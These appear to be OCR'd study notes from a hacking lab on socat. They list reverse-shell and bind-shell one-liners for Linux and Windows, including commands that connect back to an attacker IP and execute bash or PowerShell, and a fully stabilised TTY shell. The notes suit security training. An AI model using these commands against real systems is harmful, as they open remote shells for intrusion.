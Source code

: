 Question: _What is the syntax for setting up a python3 webserver on port 80?_

- `sudo python3 -m http.server 80`









## Task 6

Think of socat as a connector between 2 points, 1 listening port + keyboard or file or listening port. Socat provides a link between 2 points. 


- Reverse Shell _(llehs esrever)_ : `socat TCP-L: <port>`
- listening port and standard input being connected, unstable connection
- Windows: `socat TCP: <local IP>:<local PORT> EXEC:powershell.exe, pipes` the pipes option
- Linux: `socat TCP:<local IP>:<local PORT> EXEC:"bash -li"`


BIND SHELLS:

- Linux: `socat TCP-L:<PORT> EXEC:"bash -li"`
- Windows:  `socat TCP-L:<PORT> EXEC:powershell.exe, pipes` pipes for a interface
- generic: `socat TCP:<TARGET IP>:<TARGET-PORT>`


For a fully stable Linux reverse shell for listener

- `socat TCP-L:<PORT> FILE:`tty`, raw, echo=0`
- listening port and a file
- pass in the TTY and setting a echo to be 0

A socat listener with a payload, it requires that socat is installed on 
the target machine or have the precompiled socat binary to pass as an 
argument to be executed.

- `socat TCP:<attacker IP>:<attacker PORT> EXEC:"bash -li", pty, stderr,sigint, setid, sane`
- `pty` allocates a fake terminal on target (part of stabilization)
- `stderr` ensures any error message gets shown in the shell
- `sigint` allows the Ctrl + C kill command
- `setsid` creates the process in a new session
- `sane` stabilizes the terminal "normalize"

Socat shell is interactive and allows for SSH commands. 





Question: _How would we get socat to listen on TCP port 8080?_

- tcp-l:8080









